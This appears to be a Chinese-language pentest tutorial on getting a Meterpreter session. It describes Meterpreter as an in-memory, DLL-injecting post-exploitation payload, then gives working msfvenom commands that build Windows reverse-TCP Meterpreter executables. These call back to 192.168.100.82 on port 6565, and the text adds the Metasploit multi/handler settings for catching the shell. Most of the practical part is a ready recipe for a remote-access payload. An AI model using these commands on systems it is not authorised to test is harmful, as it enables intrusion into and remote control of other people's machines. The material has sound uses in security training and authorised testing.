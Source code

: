 
# 获取Meterpreter会话

https://blog.csdn.net/qq_36119192/article/details/83215257

https://blog.rapid7.com/2018/09/14/metasploit-wrapup-57/

https://www.bodkin.ren/index.php/archives/458/

```
https://uknowsec.cn/posts/uncategorized/%E5%90%8E%E6%B8%97%E9%80%8F%E4%B9%8Bmeterpreter%E4%BD%BF%E7%94%A8%E6%94%BB%E7%95%A5.html
```


## 什么是Meterpreter

Meterpreter属于`stage payload`，在Metasploit Framework中，Meterpreter是一种`后渗透工具`，它属于一种在运行过程中可通过网络进行功能扩展的`动态可扩展型Payload`。这种工具是基于“`内存DLL注入`”理念实现的，它能够通过创建一个`新进程并调用注入的DLL来让目标系统运行注入的DLL文件`。

## Meterpreter是如何工作的？

首先目标先要执行初始的溢出漏洞会话连接，可能是 bind正向连接，或者反弹 reverse 连接。反射连接的时候加载dll链接文件，同时后台悄悄处理 dll 文件。其次Meterpreter核心代码初始化,通过 socket套接字建立一个TLS/1.0加密隧道并发送GET请求给Metasploit服务端。Metasploit服务端收到这个GET请求后就配置相应客户端。最后，Meterpreter加载扩展，所有的扩展被加载都通过TLS/1.0进行数据传输。

## Meterpreter的特点：

`Meterpreter完全驻留在内存`，没有写入到磁盘
Meterpreter注入的时候不会产生新的进程，`可以很容易的移植到其它正在运行的进程`!
默认情况下， Meterpreter的通信是加密的，所以很安全
扩展性，许多新的特征模块可以被加载。


##  使用msfvenom生成payload 尝试链接到meterpreter

下面三选一(*32是我写着玩的*)生成一个反射shell连接到主机。
```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /re.exe

msfvenom -p windows/x32/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /jojo_32.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=接受ip地址 lport=接收端口 -f exe -o rabbit.exe
```

msf调用这个框架
```
 use exploit/multi/handler
```
绑定payload
```
set payload windows/x64/meterpreter_reverse_tcp 
```
填写链接参数
``` 
set lhost 192.168.100.82  //设置接受payload的地址，我们这里设置MSF的地址
```
```
set lport 6565          // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
填写链接端口
```
 run           \\GKDGKD
```
然后获得会话
